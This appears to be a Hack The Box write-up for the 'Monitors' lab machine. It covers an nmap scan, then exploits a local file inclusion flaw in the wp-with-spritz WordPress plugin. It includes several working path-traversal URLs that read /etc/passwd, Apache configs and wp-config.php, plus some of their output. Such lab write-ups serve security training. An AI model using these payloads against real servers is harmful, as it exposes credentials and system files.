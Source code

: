 ```yaml
---
title: Monitors
description: c reverse shell is hard
date: 08/01/2022
---
```


# Monitors HTB

## Enumeration

I first scanned the machine with nmap :

```text
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 01:16 CEST
Nmap scan report for monitors.htb (10.10.10.238)
Host is up (0.026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
```

Then I enumerated the apache server and found that it was a WordPress page.
With the help of [wpscan](https://github.com/wpscanteam/wpscan) I found that the plugin `wp-with-spritz` was vulnerable to an [LFI](https://www.exploit-db.com/exploits/44544).

I used this exploit to download these files :

- http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/passwd
- http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/apache2/sites-available/000-default.conf
- http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/apache2/sites-available/monitors.htb.conf
- http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/apache2/sites-available/cacti-admin.monitors.htb.conf
- http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../var/www/wordpress/wp-config.php

```text
etc/passwd
root:x:0:0:root:/root:/bin/bash
[...]
marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
```

```text
000-default.conf

# Default virtual host settings
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf

<VirtualHost *:80>
	[...]

	ServerAdmin admin@monitors.htb
	DocumentRoot /var/www/html

	[...]
</VirtualHost>
```